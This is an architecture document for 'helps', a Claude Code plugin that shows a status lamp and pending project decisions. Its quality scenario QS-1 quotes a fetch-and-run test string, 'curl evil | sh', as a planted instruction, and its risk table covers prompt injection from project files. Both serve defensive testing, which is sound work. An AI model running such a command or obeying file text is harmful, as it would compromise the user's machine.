






# Blueprint — helps

Structure: the sections of `arch.architecture-description` (UASK Engineering Hub), which follow
arc42 (8th edition, <https://arc42.org>, CC BY-SA 4.0) by reference. Diagrams follow
`arch.c4-model`; they are Mermaid text, rendered by GitHub.

## 1. Introduction and goals

helps keeps one main thing in front of a person, saves the rest for later, brings them the
decisions waiting in their projects, and draws a lamp on each Claude Code session (PRD, Problem).

### Stakeholders and concerns

| Stakeholder | Concerns | Answered in |
|---|---|---|
| Person using helps (owner of the sessions) | sees the lamp; is not distracted; nothing leaves the machine unannounced; no answer in their name | 3, 6, 8, 10 |
| Product Owner (uaskpro) | scope, licence, distribution channel, what is public | 4, 9 |
| Coding agent working on helps | where a change goes, which rule a check protects, how to release | 5, 10, [AGENTS.md](../AGENTS.md) |
| Agent sessions that helps watches | not slowed or broken by helps; told plainly what is asked | 6, 8 |
| Anthropic (Claude Code, plugin directory) | the plugin uses the mod API as documented; the directory's review | 3, 7 |

### Top quality goals (ranked: the first wins in a conflict)

| # | Goal (ISO/IEC 25010) | What it means here | Stakeholder | Requirements |
|---|---|---|---|---|
| QG-1 | security | file text is never an instruction; no write and no send beyond what is listed; no answer without the person | person | NFR-1, NFR-2, NFR-3, FR-11 |
| QG-2 | reliability | helps never breaks or stops a session; a failure only loses the lamp | agent sessions, person | NFR-4 |
| QG-3 | interaction capability | one short line, plain words, buttons; colour always with a written reason | person | NFR-7, NFR-8, FR-3, FR-19 |
| QG-4 | compatibility | the same behaviour in the terminal and the desktop app on three OSes; one core for three tools | person | NFR-6, NFR-9, FR-17 |
| QG-5 | maintainability | a released version never changes; every rule has a check | Product Owner, agents | NFR-12, NFR-9 |

## 2. Constraints

| Constraint | Source |
|---|---|
| The band can be drawn only through the Claude Code mod API (`hooks/register.js`, `ui.render AbovePrompt`) | Claude Code plugin documentation, 2.1.321 |
| English only in the repository; no Python | owner, ADR-0001, ADR-0002 |
| MIT licence | owner, ADR-0003 |
| Node 18 or newer for the CLI and the build; no runtime dependencies | NFR-6, NFR-9 |
| No server, account or telemetry | vision non-goals |

## 3. Context and scope

### System context diagram — helps

Key: rounded box — person; box — software system (helps is the one in scope); cylinder — data;
arrow — one-way relationship, labelled with its intent and, where it crosses a process, the protocol.

### External interfaces (inventory)

| ID | Interface | Kind | Direction | Counterparty (owner) | Our owner | Contract | Check |
|---|---|---|---|---|---|---|---|
| I-1 | Mod API: events `session.start`, `session.end`, `prompt.compose`, `prompt.submit`, `turn.start`, `turn.complete`, `tool.call`, `command.run`, `ui.render`; handle `$.ui`, `$.fs`, `$.http`, `$.model`, `$.session`, `$.tool`, `$.command`, `$.clock`, `$.env`, `$.prompt` | framework API | inbound and outbound | Claude Code (Anthropic) | lead | Claude Code plugin documentation (mods), built and tested against 2.1.321 | FF-4: mod tests (`claude plugin test`, pinned 2.1.321) in the gate |
| I-2 | Plugin package: `.claude-plugin/plugin.json`, `hooks/hooks.json`, `skills/*/SKILL.md` | file format | outbound | Claude Code | lead | Claude Code plugin reference; Agent Skills standard | `claude plugin validate` in the gate; core test "manifests, hooks and skills" |
| I-3 | Marketplaces: `.claude-plugin/marketplace.json` (Claude Code), `.agents/plugins/marketplace.json` (Codex) | file format | outbound | Claude Code, Codex | lead | their marketplace documentation | core test "manifests, hooks and skills" |
| I-4 | Codex CLI plugin: `.codex-plugin/plugin.json`, `hooks/hooks.json` (SessionStart), skills | file format, hook | outbound | Codex CLI (OpenAI) | lead | Codex documentation (formats checked against it) | core tests; a person's run — not yet (AC-9) |
| I-5 | Gemini CLI extension: `gemini-extension.json`, `hooks/hooks.json`, `commands/helps/*.toml` | file format, hook | outbound | Gemini CLI (Google) | lead | Gemini CLI documentation | core test "gemini commands are TOML"; a person's run — not yet (AC-9) |
| I-6 | Version check: HTTPS GET `raw.githubusercontent.com/uaskpro/helps/main/plugins/claude/helps/.claude-plugin/plugin.json` | HTTP API | outbound | GitHub (we own the file) | lead | our own `plugin.json`, field `version` (SemVer) | mod test "a newer published version…"; core test "version comparison" |
| I-7 | Drift check: `$.model.complete` with the alias `haiku`, ≤ 150 output tokens, 30 s | model call | outbound | Claude Code / Anthropic, through the person's account | lead | mod API; reply format is ours (`readDrift`) | mod test "drift check: yellow with the reason, never red" |
| I-8 | Project state files: owner headings, alert prefixes, `## Owner answers (helps)` | file format | shared (read; one-line write) | the person's projects | lead | [docs/INTERFACE.md](../docs/INTERFACE.md) §3 | core tests "owner items…", "an answer keeps the file…", "text from files never reaches…" |
| I-9 | Data folder `~/helps-data` (`HELPS_DATA`) | file format | shared (the person may edit) | the person | lead | [docs/INTERFACE.md](../docs/INTERFACE.md) §2 | core tests "fields are one plain line…", "ideas: save and drop", "config.json adds headings…" |
| I-10 | Environment: `HELPS_DATA`, `HELPS_PROJECT_ROOTS`, `CLAUDE_CODE_DISABLE_NONESSENTIAL_TRAFFIC` | configuration | inbound | the person, Claude Code | lead | [docs/INTERFACE.md](../docs/INTERFACE.md) §4 | mod test "nobody watching…"; core tests |
| I-11 | Official plugin directory listing | publication | outbound | Anthropic | Product Owner | the directory's submission rules | AC-10, after listing (planned by 2027-03-31) |
| I-12 | Plugins added on claude.ai (Customize → Plugins), synced into local sessions | distribution | inbound (unwanted) | Anthropic | Product Owner | none: the synced copy arrives without `hooks/` and hides the installed one | manual, AC-10; reported to Anthropic through `/feedback` (owner, 2026-11-14) |

Kinds that do not apply: databases, queues, webhooks, mail, DNS, scheduled jobs outside a session
(timers run only inside a live session), payment, personal data stores — **none**. No secret is
held: helps needs no credential.

## 4. Solution strategy

- **One core, three thin wrappers.** All logic about the main thing, ideas and decisions lives in
  `src/core.js`, which reaches the world only through an `io` object. The Claude Code mod, the
  Node CLI (Codex, Gemini) and the tests each pass their own `io` (ADR-0001).
- **The lamp is the state of this session**, computed from engine events inside the session; the
  main thing's own state sits beside it in grey (ADR-0005).
- **Show, never obey.** Text from files is shown to the person and summarised as "an alert line in
  project X" to the session (QG-1).
- **Fail quiet.** Every handler passes control on; a failure loses the lamp, not the session (QG-2).
- **`main` is the release channel** (ADR-0007): the marketplace serves `main`, so the built plugin
  changes there only in a release.

**Governance tier: standard.** A public product with users that reads and writes in the person's
files; the worst realistic failure is lost work or a wrong answer in a project — recoverable, but
borne by users. Decided by the Product Owner on 2026-11-21 (button "Standard"), per
`mgmt.governance-tiers`.

## 5. Building block view

### Container diagram — helps

Key: box — container or component of helps, with its technology; cylinder — data; arrow — one-way
dependency labelled with its intent and the mechanism.

### Building blocks

| ID | Block | Responsibility | Hides | Offers | Depends on | Owner | Technology |
|---|---|---|---|---|---|---|---|
| B-1 | Core (`src/core.js`) | main thing, ideas, decisions, answers, main-thing health, session context text | file formats of I-8 and I-9; decision parsing | `run(ctx, argv)`, `health`, `contextText`, `makeCtx` | nothing (an `io` is passed in) | lead | JavaScript (ES2022), no dependencies |
| B-2 | Session model (`src/session.js`) | the lamp's signals and colour; reading shell commands for outside actions; band settings | thresholds, command parsing | pure functions over a session record | nothing | lead | JavaScript, no dependencies |
| B-3 | Claude Code mod (`src/register.js`) | adapter to I-1: tool `mcp__helps__run`, prompt context, band, Pause, Realign, drift and update checks | the mod API | the plugin's behaviour in Claude Code | B-1, B-2, I-1 | lead | JavaScript module run by Claude Code |
| B-4 | CLI (`src/cli.mjs`) | adapter to Node for Codex and Gemini, `helps link` | Node file system, atomic writes | the `helps` command | B-1 | lead | Node 18+ |
| B-5 | Skills (`src/skills/*/SKILL.md`) | step-by-step procedures for the session | — | five skills | B-3 or B-4 (by name of the tool) | lead | Markdown, Agent Skills |
| B-6 | Build (`build.mjs`) | writes the three wrappers into `plugins/` and the marketplaces | wrapper layouts of I-2 – I-5 | `npm run build`, `--check` | B-1 – B-5 | lead | Node |
| B-7 | Gate (`tools/gate.mjs`, `tools/fitness.mjs`) | the checks of every change | — | `npm run gate` | everything above | lead | Node |

### Dependency rules

| ID | Rule | Reason | Check |
|---|---|---|---|
| DR-1 | B-1 and B-2 MUST NOT import anything (static or dynamic), use Node-only globals (`process`, `Buffer`, `require`, `globalThis`, …), timers, the engine handle `$` or the network; every effect goes through the `io` they are given. Web-standard globals (`Date`, `crypto.subtle`, `TextEncoder`) are allowed. | QG-4 (one core for three tools), QG-1 (no hidden sends) | FF-2 |
| DR-2 | B-3 and B-4 MAY depend on B-1 and B-2; B-1 and B-2 MUST NOT depend on B-3 or B-4. | QG-4 | FF-2 (no imports at all in B-1, B-2) |
| DR-3 | helps MUST have no runtime dependencies. | QG-1 (supply chain), QG-4 | FF-3 |
| DR-4 | `plugins/` and the marketplaces MUST be produced only by B-6. | QG-5 | FF-5: `node build.mjs --check` in the gate |

## 6. Runtime view

Key scenarios (`arch.c4-model#R13`).

### Dynamic diagram — a turn updates the lamp (S-C)

### Dynamic diagram — answering a decision (S-D)

### Dynamic diagram — the brake (S-B)

## 7. Deployment view

### Deployment diagram — production (the person's computer)

Environments: **production** is the person's computer above. **CI** (GitHub Actions: Linux, macOS,
Windows × Node 18, 22) runs the gate. **Local** is a developer's checkout. There is no staging:
a release candidate is tried by hand in a clean Claude Code configuration (TEST-STRATEGY §5).

Delivery path: change → gate → a branch → a pull request the owner merges into `main` → for a new
approved version, the release workflow tags it and builds archives and checksums → the marketplace
serves `main` → installed copies update on a new version ([RELEASING.md](RELEASING.md)).

### Operability block

| Item | Value |
|---|---|
| Availability target | none: helps runs inside the person's session; there is no service to be available |
| Recovery point / recovery time | none for helps itself. The data folder is small text the person owns; helps keeps no copy. A state file changed by an answer is the person's file, usually under Git |
| Restore test | none: no data held by us. A rollback of helps is a reinstall of the previous tag, tested in each release checklist |
| Rollback of a release | install the previous version from its tag (RELEASING.md §Rollback), about 5 minutes per machine |
| Monitoring and who is told | none at runtime (no telemetry, by vision). Signals: CI on every push; GitHub issues and security advisories, read by the lead |
| Who runs it | the person, on their machine |
| End of support of what it depends on | Node 18 reached end of life on 2025-04-30: still in the test matrix for older machines; drop it in 2.0.0 or by 2027-06-30, whichever is first (TD-3). Claude Code: no published end of support; pinned test version is raised with each MINOR release |

## 8. Cross-cutting concepts

| Concern | Concept | Requirements |
|---|---|---|
| Security | Show, never obey: file text goes to the person, the session gets only "an alert line in project X". Answers need the person's hand (button or dialog). Writes limited to the data folder, one line per answer, and — only when the person runs `helps link` — one command file. | NFR-1, NFR-2, FR-11, FR-13 |
| Privacy | Two sends only (drift, version), both switchable, both silent without a visible lamp. Secrets are masked in the shell commands sent to the drift check, not in the person's messages or the reply (RK-8, TD-7). | NFR-3 |
| Accessibility | Colour is never alone: the reason is written; buttons have text labels; terminal and desktop both supported. Not yet verified: contrast in light and dark themes, screen-reader output (TD-4). | NFR-7, NFR-8 |
| Language | English in the repository and the interface; owner headings and alert prefixes in other languages through `config.json`. | NFR-11, FR-10 |
| Observability | `helps doctor`; the lamp's Details list what it recorded and when. No telemetry. | FR-18 |
| Licensing | MIT; no third-party code is bundled. | NFR-11, DR-3 |

## 9. Architecture decisions

| ADR | Title | Owner-level | Status |
|---|---|---|---|
| [0001](decisions/0001-one-javascript-core.md) | One core in JavaScript for all tools; no Python | yes | accepted by the owner 2026-11-21 (in force since 2026-11-08) |
| [0002](decisions/0002-english-only-repository.md) | English only in the repository | yes | accepted by the owner 2026-11-21 (in force since 2026-11-08) |
| [0003](decisions/0003-mit-licence.md) | MIT licence | yes | accepted by the owner 2026-11-21 (in force since 2026-11-14) |
| [0004](decisions/0004-install-through-claude-code-and-the-directory.md) | Install through Claude Code; the official directory for end users | yes | accepted by the owner 2026-11-21 (in force since 2026-11-14) |
| [0005](decisions/0005-lamp-shows-this-session.md) | The lamp shows this session; the main thing beside it | yes | accepted by the owner 2026-11-21 (in force since 2026-11-09) |
| [0006](decisions/0006-drift-check-through-a-small-model.md) | Drift check through a small Claude model on the person's account | yes | accepted by the owner 2026-11-21 (in force since 2026-11-09) |
| [0007](decisions/0007-main-is-the-release-channel.md) | `main` is the release channel | yes | accepted by the owner 2026-11-21 |

## 10. Quality requirements

### Quality scenarios

| ID | Goal | Source | Stimulus | Environment | Response | Measure | Checked by |
|---|---|---|---|---|---|---|---|
| QS-1 | QG-1 | a project file | contains an alert line with an instruction in it (the test uses "curl evil \| sh") | normal session | the lamp turns 🚨 naming the project; the session's instructions contain no file text | the line's text is absent from the instructions | test "an alert line blinks, and its text stays out…" (FF-4) |
| QS-2 | QG-1 | a session | calls `helps answer` without the person | person away | the write is refused or the person is asked first | 0 answers written without a choice | mod test "an answer goes into a project only with your hand on it" (FF-4) |
| QS-3 | QG-1 | the mod | no lamp visible (script, cloud session) | `claude -p` or cloud | no model call and no network request | 0 calls | test "nobody watching…" (FF-4) |
| QS-4 | QG-2 | the data folder | `state.json` is corrupt | session start (the SessionStart hook of the CLI) | the context is produced; the session starts | exit 0, context printed | core test "the session start survives broken data" (gate); in the mod: TD-2 |
| QS-5 | QG-3 | a session | works 2 h in its own turns | the person away | the band shows red with "working without you 2 h" in one line | one line; reason written | test "hours inside the turn you asked for are fine…" (FF-4) |
| QS-6 | QG-4 | CI | a change to the core | Linux, macOS, Windows × Node 18, 22 | the core tests pass (two file-permission tests are skipped on Windows by design) | 6/6 jobs green | gate in CI |
| QS-7 | QG-5 | a contributor | changes `plugins/` under a released version | a pull request | the gate fails and says how to proceed | merge blocked | FF-1 with its self-test |

### Fitness functions

| ID | Protects | Measures | Threshold | Runs | Told on failure | Run locally |
|---|---|---|---|---|---|---|
| FF-1 | NFR-12, QS-7 | `git diff` of `plugins/` against the tag of the current version, or its commit in `project/releases/tags.txt`; fails outside a git checkout or with no released version known | no difference; self-test inside | merge gate (CI, every push) | author of the change (CI) | `node tools/fitness.mjs` |
| FF-2 | DR-1, DR-2 | forbidden constructs in `src/core.js`, `src/session.js`, line by line (multi-line constructs: TD-8) | none; self-test inside | merge gate | author (CI) | `node tools/fitness.mjs` |
| FF-3 | DR-3 | runtime dependencies in `package.json` | none; self-test inside | merge gate | author (CI) | `node tools/fitness.mjs` |
| FF-4 | I-1, QS-1 – QS-5, AC-2 – AC-8 | mod tests against the Claude Code engine | 0 failures | merge gate, Linux + Node 22 | author (CI) | `npm run gate` |
| FF-5 | DR-4 | build output equals the sources | no difference | merge gate | author (CI) | `node build.mjs --check` |
| FF-6 | ADR-0002, NFR-11 | Cyrillic letters in tracked text files (other languages: review) | none; self-test inside | merge gate | author (CI) | `node tools/fitness.mjs` |
| FF-7 | NFR-12, `quality.quality-release#R14` | on `main`, a version without a tag needs `project/releases/<version>.md` with the line `- [x] Approved` | present; self-test inside | merge gate on `main` and on pull requests into `main` | author (CI) | `node tools/fitness.mjs` |

## 11. Risks and technical debt

Planning horizon: 6 months. Severity from likelihood × impact as `arch.architecture-review#R7`.

### Risks

| ID | What could happen | Threatens | Likelihood | Impact | Severity | Mitigation | Response | Owner | Status | Next review |
|---|---|---|---|---|---|---|---|---|---|---|
| RK-1 | Claude Code changes the mod API or the band component; the lamp disappears | QG-4, O-1 | medium | high | High | mod tests pinned to a known version; raise the pin each MINOR; read Claude Code release notes | reduce | lead | open | 2026-12-21 |
| RK-2 | Plugins synced from claude.ai keep arriving without `hooks/` and hide the installed copy; directory installs inherit the same | O-1, O-5 | happening now (found 2026-11-14) | high | Critical | one install channel (ADR-0004); README warns; verify after listing (AC-10) | reduce | Product Owner | occurred | at listing |
| RK-3 | The drift check costs the person's usage noticeably | QG-3, trust | low | medium | Low | ≤150 output tokens, ≤ every 3 turns and 10 min, small model; switch off | accept (lead) | lead | open | 2026-12-21 |
| RK-4 | An answer is written into `STATE.md` while an agent edits the same file; one change is lost | QG-1 | low | medium | Low | one-line insert from a fresh read; CLI writes atomically (temp + rename) | accept (lead) | lead | open | 2026-12-21 |
| RK-5 | Codex or Gemini change their formats; the light wrappers break unnoticed | QG-4 | medium | low | Low | format tests; a person's run before each release (AC-9) | reduce | lead | open | 2026-12-21 |
| RK-6 | The directory review rejects the mod (hooks module rules) | O-5 | medium | high | High | plugin README lists what it runs, reads, writes, sends; no dependencies; MIT | reduce | Product Owner | open | at submission |
| RK-7 | Text in a project file reaches a session as an instruction (prompt injection) | QG-1 | low | high | Medium | only "an alert line in project X" goes to the session; tests QS-1; review rule in the Definition of Done | reduce | lead | open | 2026-12-21 |
| RK-8 | A secret in the person's last messages or the session's reply goes to the drift model unmasked (commands are masked, messages are not) | QG-1, NFR-3 | medium | medium | Medium | the send is listed and switchable (`drift_check`); it goes only to the model of the person's own account; mask secrets in messages too (TD-7) | reduce | lead | open | 2026-12-21 |
| RK-9 | A wrong answer is written into a project (the wrong decision id, a stale question) | QG-1 | low | medium | Low | the person sees the question and the answer before the write; one line, newest first; files are usually under Git | accept (lead) | lead | open | 2026-12-21 |
| RK-10 | An exception in a mod handler breaks a session | QG-2 | low | high | Medium | handlers pass control on; broken data tested; a general containment test (TD-2) | reduce | lead | open | 2026-12-21 |

Likelihood words: low, medium, high, or "happening now"; severity from the table of `arch.architecture-review#R7`. Accepting a risk of Medium or higher needs the owner's decision (`arch.risks-and-technical-debt#R4`); RK-1, RK-2, RK-6, RK-7, RK-8 and RK-10 are being reduced, not accepted.

### Technical debt

| ID | Shortcut | Where | Why taken | Principal | Interest | Trigger | Owner | Entered |
|---|---|---|---|---|---|---|---|---|
| TD-1 | The version check reads `main`, not the latest release | B-3, I-6 | found, not chosen; harmless while `main` = release (ADR-0007) | 1 h | none while ADR-0007 holds | ADR-0007 changes | lead | 2026-11-21 |
| TD-2 | No general test that an exception in any handler is contained (risk RK-10) | B-3 | found, not chosen | 2 h | a regression could break sessions (QG-2) | next change to the mod's handlers | lead | 2026-11-21 |
| TD-3 | Node 18 (end of life) stays in the matrix | CI | users on older machines | 0.5 h | CI minutes | 2.0.0 or 2027-06-30 | lead | 2026-11-21 |
| TD-4 | Contrast and screen-reader output of the band not verified | B-3, NFR-8 | found, not chosen | 3 h | users who rely on them may miss the lamp | before 1.1.0 | lead | 2026-11-21 |
| TD-5 | FF-4 and FF-5 have no self-test with a broken sample (FF-1, FF-2, FF-3, FF-6, FF-7 have one) | B-7 | found, not chosen | 2 h | a broken check could pass silently | 1.1.0 | lead | 2026-11-21 |
| TD-6 | The 6-hour limit of the version check and the two off switches have no test | B-3 | found, not chosen | 1 h | an extra request per session start if broken | 1.1.0 | lead | 2026-11-21 |
| TD-7 | Secrets are masked in shell commands but not in the person's messages or the reply sent to the drift check (risk RK-8) | B-3 | found, not chosen | 2 h | a pasted secret can reach the model | 1.1.0 | lead | 2026-11-21 |
| TD-8 | FF-2 reads line by line: a construct split over lines or hidden in a multi-line template literal can pass | B-7 | found, not chosen | 2 h (parse with a tokenizer) | a breach of DR-1 could pass the gate; review still reads every change | 1.1.0 | lead | 2026-11-21 |

## 12. Glossary

| Term | Meaning |
|---|---|
| main thing | the one project or goal the person chose; "done" says when it is finished |
| saved for later | the list of ideas and tasks set aside (`IDEAS.md`) |
| decision | a list item under an owner heading in a listed state file |
| band | the line above the prompt with the lamp |
| outside action | a command or tool call that changes something outside the machine (FR-5) |
| own turn | a turn the session started itself (after a background task), not after the person's message |

## Annex: requirements → sections

| Requirement | Section | Requirement | Section |
|---|---|---|---|
| FR-1 | 5 (B-1), 6 | FR-11 | 6, 8 |
| FR-2 | 6 (brake) | FR-12 | 5 (B-1) |
| FR-3 | 5 (B-3), 6 | FR-13 | 8, 10 (QS-1) |
| FR-4 – FR-8 | 5 (B-2), 6, 10 (QS-5) | FR-14, FR-15 | 5 (B-3) |
| FR-9, FR-10 | 5 (B-1), 6 | FR-16 | 3 (I-6), 7 |
| FR-17 | 3 (I-4, I-5), 5 (B-4) | FR-18 | 8 |
| FR-19 | 5 (B-2) | FR-20 | 3 (I-11, I-12), 11 (RK-2, RK-6) |
| NFR-1 – NFR-3 | 8, 10 | NFR-4 | 4, 10 (QS-4) |
| NFR-5 | 6, 11 (RK-3) | NFR-6 | 2, 7 |
| NFR-7, NFR-8 | 8 | NFR-9 | 5 (DR-1 – DR-3) |
| NFR-10 | 3 (I-9, I-10) | NFR-11 | 2, 8 |
| NFR-12 | 4, 10 (FF-1) | | |
